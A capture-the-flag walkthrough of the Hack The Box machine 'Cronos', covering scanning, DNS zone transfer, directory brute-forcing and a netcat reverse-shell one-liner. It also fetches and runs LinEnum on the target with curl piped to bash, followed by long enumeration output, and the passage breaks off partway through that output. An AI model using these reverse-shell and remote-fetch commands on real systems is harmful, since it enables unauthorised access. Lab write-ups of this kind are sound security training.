


#### Cronos

- [Attacker Info]()
- [Nmap Scan]()
- [DNS Enumeration]()
- [Gobuster]()
- [Reverse Shell]()
- [Privilege Escalation]()
- [PrivEsc using laravel scheduled tasks]()

###### Attacker Info

```sh
root@kali:~/cronos# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.19  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 11472  bytes 2739954 (2.6 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 12020  bytes 3501182 (3.3 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 728  bytes 1122140 (1.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 728  bytes 1122140 (1.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.8  netmask 255.255.254.0  destination 10.10.14.8
        inet6 fe80::c643:2e07:b80:7cfe  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1006  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 1864  bytes 492304 (480.7 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 6908  bytes 2241258 (2.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/cronos#
```

###### Nmap Scan

```sh
root@kali:~/cronos# nmap -sV -sC -oA cron.nmap 10.10.10.13

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-27 10:18 EST
Nmap scan report for 10.10.10.13
Host is up (0.24s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (EdDSA)
53/tcp open  domain  ISC BIND 9.10.3-P4-Ubuntu
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.73 seconds
root@kali:~/cronos#
```





```sh
root@kali:~/cronos# cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	kali

10.10.10.13     cronos.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
root@kali:~/cronos#
```


###### DNS Enumeration

```sh
root@kali:~/cronos# nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
> cronos.htb
Server:		10.10.10.13
Address:	10.10.10.13#53

Name:	cronos.htb
Address: 10.10.10.13
>
root@kali:~/cronos#
```

```sh
root@kali:~/cronos# dig axfr @10.10.10.13 cronos.htb

; <<>> DiG 9.11.2-P1-1-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 188 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Sat Jan 27 11:59:21 EST 2018
;; XFR size: 7 records (messages 1, bytes 203)

root@kali:~/cronos#
```

```sh
root@kali:~/cronos# cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	kali

10.10.10.13     www.cronos.htb ns1.cronos.htb admin.cronos.htb cronos.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
root@kali:~/cronos#
```

###### Gobuster

```sh
root@kali:~/cronos# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://cronos.htb -t 25

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://cronos.htb/
[+] Threads      : 25
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/css (Status: 301)
/js (Status: 301)
=====================================================
root@kali:~/cronos#
```

```
www.cronos.htb 
ns1.cronos.htb 
admin.cronos.htb
```




###### Reverse Shell


[``Reverse Shell Cheat Sheet``](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 8081 >/tmp/f
```


[``Upgrading simple shells to fully interactive TTYs``](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

```sh
root@kali:~/cronos# nc -nlvp 8081
listening on [any] 8081 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.13] 55112
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@cronos:/var/www/admin$ ^Z
[1]+  Stopped                 nc -nlvp 8081
root@kali:~/cronos# echo $TERM
xterm-256color
root@kali:~/cronos# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/cronos# stty raw -echo
root@kali:~/cronos# nc -nlvp 8081
                                 reset
reset: unknown terminal type unknown
Terminal type? xterm-256color

www-data@cronos:/var/www/admin$ stty rows 51 columns 204
www-data@cronos:/var/www/admin$
```

###### Privilege Escalation

```sh
root@kali:~/cronos# git clone https://github.com/Kan1shka9/Linux-Privilege-Escalation.git
Cloning into 'Linux-Privilege-Escalation'...
remote: Counting objects: 21, done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 21 (delta 6), reused 0 (delta 0), pack-reused 9
Unpacking objects: 100% (21/21), done.
root@kali:~/cronos# cd Linux-Privilege-Escalation/
root@kali:~/cronos/Linux-Privilege-Escalation# git submodule init
Submodule 'LinEnum' (https://github.com/rebootuser/LinEnum.git) registered for path 'LinEnum'
Submodule 'linux-exploit-suggester' (https://github.com/mzet-/linux-exploit-suggester.git) registered for path 'linux-exploit-suggester'
Submodule 'linuxprivchecker' (https://github.com/sleventyeleven/linuxprivchecker.git) registered for path 'linuxprivchecker'
Submodule 'unix-privesc-check' (https://github.com/pentestmonkey/unix-privesc-check.git) registered for path 'unix-privesc-check'
root@kali:~/cronos/Linux-Privilege-Escalation# git submodule update --recursive --remote
Cloning into '/root/cronos/Linux-Privilege-Escalation/LinEnum'...
Cloning into '/root/cronos/Linux-Privilege-Escalation/linux-exploit-suggester'...
Cloning into '/root/cronos/Linux-Privilege-Escalation/linuxprivchecker'...
Cloning into '/root/cronos/Linux-Privilege-Escalation/unix-privesc-check'...
Submodule path 'LinEnum': checked out 'c5a13166c207d6dd3efbf4f547a02b3ff6b537ec'
Submodule path 'linux-exploit-suggester': checked out '8c942bd8842db595aef364a35102be331c67b394'
Submodule path 'linuxprivchecker': checked out 'e048a31a8852a604b4f953c39e2d9b6d08c5d6bb'
Submodule path 'unix-privesc-check': checked out '00e0d54c611a498ad6121ea03df2b88c8d7a80fb'
root@kali:~/cronos/Linux-Privilege-Escalation# ls -l
total 20
drwxr-xr-x 2 root root 4096 Jan 27 12:38 LinEnum
drwxr-xr-x 2 root root 4096 Jan 27 12:38 linux-exploit-suggester
drwxr-xr-x 2 root root 4096 Jan 27 12:38 linuxprivchecker
-rw-r--r-- 1 root root  600 Jan 27 12:38 README.md
drwxr-xr-x 2 root root 4096 Jan 27 12:38 unix-privesc-check
root@kali:~/cronos/Linux-Privilege-Escalation# cd LinEnum/
root@kali:~/cronos/Linux-Privilege-Escalation/LinEnum# ls -l
total 52
-rw-r--r-- 1 root root  2784 Jan 27 12:38 CHANGELOG.md
-rw-r--r-- 1 root root   418 Jan 27 12:38 CONTRIBUTORS.md
-rwxr-xr-x 1 root root 38174 Jan 27 12:38 LinEnum.sh
-rw-r--r-- 1 root root  3384 Jan 27 12:38 README.md
root@kali:~/cronos/Linux-Privilege-Escalation/LinEnum# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.13 - - [27/Jan/2018 12:39:32] "GET /LinEnum.sh HTTP/1.1" 200 -
```

```sh
www-data@cronos:/var/www/admin$ curl http://10.10.14.8:8000/LinEnum.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 38174  100 38174    0     0  43555      0 --:--:-- --:--:-- --:--:-- 43527

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
#

Debug Info
thorough tests = disabled


Scan started at:
Sat Jan 27 19:39:51 EET 2018


### SYSTEM ##############################################
Kernel information:
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


Kernel information (continued):
Linux version 4.4.0-72-generic (buildd@lcy01-17) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017


Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial


Hostname:
cronos


### USER/GROUP ##########################################
Current user/group info:
uid=33(www-data) gid=33(www-data) groups=33(www-data)


Users that have previously logged onto the system:
Username         Port     From             Latest
root             tty1                      Sun Dec 24 17:43:09 +0200 2017
noulis           pts/0    10.10.14.141     Thu Jul 27 01:39:12 +0300 2017


Who else is logged on:
 19:39:51 up 1 day, 21:18,  0 users,  load average: 0.08, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT


Group memberships:
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=105(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=106(lxd) gid=65534(nogroup) groups=65534(nogroup)
uid=107(mysql) gid=111(mysql) groups=111(mysql)
uid=108(messagebus) gid=112(messagebus) groups=112(messagebus)
uid=109(uuidd) gid=113(uuidd) groups=113(uuidd)
uid=110(dnsmasq) gid=65534(nogroup) groups=65534(nogroup)
uid=111(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=1000(noulis) gid=1000(noulis) groups=1000(noulis),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)
uid=112(bind) gid=119(bind) groups=119(bind)

Seems we met some admin users!!!

uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=1000(noulis) gid=1000(noulis) groups=1000(noulis),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)


Sample entires from /etc/passwd (searching for uid values 0, 500, 501, 502, 1000, 1001, 1002, 2000, 2001, 2002):
root:x:0:0:root:/root:/bin/bash
noulis:x:1000:1000:Noulis Panoulis,,,:/home/noulis:/bin/bash


Super user account(s):
root


Are permissions on /home directories lax:
total 12K
drwxr-xr-x  3 root   root   4.0K Mar 22  2017 .
drwxr-xr-x 23 root   root   4.0K Apr  9  2017 ..
drwxr-xr-x  4 noulis noulis 4.0K Apr  9  2017 noulis


### ENVIRONMENTAL #######################################
 Environment information:
APACHE_PID_FILE=/var/run/apache2/apache2.pid
APACHE_RUN_USER=www-data
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_LOG_DIR=/var/log/apache2
PWD=/var/www/admin
LANG=C
APACHE_RUN_GROUP=www-data
SHLVL=2
APACHE_RUN_DIR=/var/run/apache2
APACHE_LOCK_DIR=/var/lock/apache2
_=/usr/bin/env


Path information:
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin


Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
/usr/bin/tmux
/usr/bin/screen


Current umask value:
0022
u=rwx,g=rx,o=rx


umask value as specified in /etc/login.defs:
UMASK		022


Password and storage information:
PASS_MAX_DAYS	99999
PASS_MIN_DAYS	0
PASS_WARN_AGE	7
ENCRYPT_METHOD SHA512


### JOBS/TASKS ##########################################
Cron jobs:
-rw-r--r-- 1 root root  797 Apr  9  2017 /etc/crontab

/etc/cron.d:
total 24
drwxr-xr-x  2 root root 4096 Mar 22  2017 .
drwxr-xr-x 95 root root 4096 Apr  9  2017 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder
-rw-r--r--  1 root root  589 Jul 16  2014 mdadm
-rw-r--r--  1 root root  670 Mar  1  2016 php
-rw-r--r--  1 root root  191 Mar 22  2017 popularity-contest

/etc/cron.daily:
total 60
drwxr-xr-x  2 root root 4096 Apr  9  2017 .
drwxr-xr-x 95 root root 4096 Apr  9  2017 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder
-rwxr-xr-x  1 root root  539 Apr  6  2016 apache2
-rwxr-xr-x  1 root root  376 Mar 31  2016 apport
-rwxr-xr-x  1 root root 1474 Jan 17  2017 apt-compat
-rwxr-xr-x  1 root root  355 May 22  2012 bsdmainutils
-rwxr-xr-x  1 root root 1597 Nov 27  2015 dpkg
-rwxr-xr-x  1 root root  372 May  6  2015 logrotate
-rwxr-xr-x  1 root root 1293 Nov  6  2015 man-db
-rwxr-xr-x  1 root root  539 Jul 16  2014 mdadm
-rwxr-xr-x  1 root root  435 Nov 18  2014 mlocate
-rwxr-xr-x  1 root root  249 Nov 13  2015 passwd
-rwxr-xr-x  1 root root 3449 Feb 26  2016 popularity-contest
-rwxr-xr-x  1 root root  214 May 24  2016 update-notifier-common

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Mar 22  2017 .
drwxr-xr-x 95 root root 4096 Apr  9  2017 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Mar 22  2017 .
drwxr-xr-x 95 root root 4096 Apr  9  2017 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder

/etc/cron.weekly:
total 24
drwxr-xr-x  2 root root 4096 Apr  9  2017 .
drwxr-xr-x 95 root root 4096 Apr  9  2017 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder
-rwxr-xr-x  1 root root   86 Apr 13  2016 fstrim
-rwxr-xr-x  1 root root  771 Nov  6  2015 man-db
-rwxr-xr-x  1 root root  211 May 24  2016 update-notifier-common


Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
#


### NETWORKING  ##########################################
Network & IP info:
ens160    Link encap:Ethernet  HWaddr 00:50:56:b9:b3:6e
          inet addr:10.10.10.13  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: dead:beef::250:56ff:feb9:b36e/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:b36e/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2901587 errors:0 dropped:173 overruns:0 frame:0
          TX packets:1906187 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:241696962 (241.6 MB)  TX bytes:326166761 (326.1 MB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:9607 errors:0 dropped:0 overruns:0 frame:0
          TX packets:9607 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:944409 (944.4 KB)  TX bytes:944409 (944.4 KB)


ARP history:
? (10.10.10.2) at 00:50:56:aa:d8:f7 [ether] on ens160


Nameserver(s):
nameserver 10.10.10.2
nameserver 8.8.8.8


Default route:
default         10.10.10.2      0.0.0.0         UG    0      0        0 ens160


Listening TCP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 10.10.10.13:53          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN      -
tcp        0    113 10.10.10.13:55112       10.10.14.8:8081         ESTABLISHED 9467/nc
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -


Listening UDP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
udp        0      0 10.10.10.13:49331       8.8.8.8:53              ESTABLISHED -
udp        0      0 10.10.10.13:53          0.0.0.0:*                           -


### SERVICES #############################################
Running processes:
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.5  38044  5976 ?        Ss   Jan25   0:04 /sbin/init
root         2  0.0  0.0      0     0 ?        S    Jan25   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S    Jan25   0:00 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kworker/0:0H]
root         7  0.0  0.0      0     0 ?        S    Jan25   0:17 [rcu_sched]
root         8  0.0  0.0      0     0 ?        S    Jan25   0:00 [rcu_bh]
root         9  0.0  0.0      0     0 ?        S    Jan25   0:00 [migration/0]
root        10  0.0  0.0      0     0 ?        S    Jan25   0:00 [watchdog/0]
root        11  0.0  0.0      0     0 ?        S    Jan25   0:00 [watchdog/1]
root        12  0.0  0.0      0     0 ?        S    Jan25   0:00 [migration/1]
root        13  0.0  0.0      0     0 ?        S    Jan25   0:07 [ksoftirqd/1]
root        15  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kworker/1:0H]
root        16  0.0  0.0      0     0 ?        S    Jan25   0:00 [kdevtmpfs]
root        17  0.0  0.0      0     0 ?        S<   Jan25   0:00 [netns]
root        18  0.0  0.0      0     0 ?        S<   Jan25   0:00 [perf]
root        19  0.0  0.0      0     0 ?        S    Jan25   0:00 [khungtaskd]
root        20  0.0  0.0      0     0 ?        S<   Jan25   0:00 [writeback]
root        21  0.0  0.0      0     0 ?        SN   Jan25   0:00 [ksmd]
root        22  0.0  0.0      0     0 ?        SN   Jan25   0:00 [khugepaged]
root        23  0.0  0.0      0     0 ?        S<   Jan25   0:00 [crypto]
root        24  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kintegrityd]
root        25  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root        26  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kblockd]
root        27  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ata_sff]
root        28  0.0  0.0      0     0 ?        S<   Jan25   0:00 [md]
root        29  0.0  0.0      0     0 ?        S<   Jan25   0:00 [devfreq_wq]
root        34  0.0  0.0      0     0 ?        S    Jan25   0:00 [kswapd0]
root        35  0.0  0.0      0     0 ?        S<   Jan25   0:00 [vmstat]
root        36  0.0  0.0      0     0 ?        S    Jan25   0:00 [fsnotify_mark]
root        37  0.0  0.0      0     0 ?        S    Jan25   0:00 [ecryptfs-kthrea]
root        53  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kthrotld]
root        54  0.0  0.0      0     0 ?        S<   Jan25   0:00 [acpi_thermal_pm]
root        55  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root        56  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root        57  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root        58  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root        59  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root        60  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root        61  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root        62  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root        63  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_0]
root        64  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_0]
root        65  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_1]
root        66  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_1]
root        72  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ipv6_addrconf]
root        85  0.0  0.0      0     0 ?        S<   Jan25   0:00 [deferwq]
root        86  0.0  0.0      0     0 ?        S<   Jan25   0:00 [charger_manager]
root       124  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root       125  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root       126  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root       127  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root       128  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root       129  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root       130  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root       131  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root       132  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_2]
root       133  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ttm_swap]
root       134  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_3]
root       135  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_3]
root       136  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_2]
root       137  0.0  0.0      0     0 ?        S<   Jan25   0:00 [vmw_pvscsi_wq_3]
root       138  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_4]
root       139  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root       140  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_4]
root       141  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_5]
root       142  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_5]
root       143  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_6]
